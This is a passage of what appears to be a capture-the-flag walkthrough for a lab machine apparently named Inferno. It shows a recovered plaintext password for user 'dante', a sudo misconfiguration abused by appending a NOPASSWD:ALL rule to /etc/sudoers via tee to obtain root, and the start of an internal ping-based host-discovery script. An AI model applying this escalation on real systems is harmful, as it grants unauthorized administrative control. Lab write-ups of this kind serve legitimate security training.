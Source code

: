 ```
ch’ella mi fa tremar le vene e i polsi».

dante:V1rg1l10h3lpm3


```
su dante : V1rg1l10h3lpm3

we connected via ssh.. its better 

and now im dante

now you must go to the root 

He said " before going to the suid , capabilities, etc..." we are going to see the 
sudo -l and watch if we can do something as sudo (without putting sudo password)
```
  (root) NOPASSWD: /usr/bin/tee

```
when we use things like 

echo "adios" | tee adios.txt

This command inserts "adios" , and creates a line inside of an archive, if the file exists replace the file.

but with tee -a (append) we put more data inside of a file


We can put more things on the etc sudoers

```
echo "dante ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers

```


So, we put sudo su without password and we are root. 

we are going to discover the masashi from this machine


we are going to create a file called 
```

cd /tmp/ 
nano hostDiscovery.sh

```
&>/dev/null redirects the stdin and the stdout and we do not see it ..

```
ping -c 1 10.0.3.2 &>/dev/null

```

He said that we dont care about seeing nothing he just want to see the status code

```
root@Inferno:/tmp# ping -c 1  10.0.3.2 &>/dev/null 
root@Inferno:/tmp# echo $?
0
```
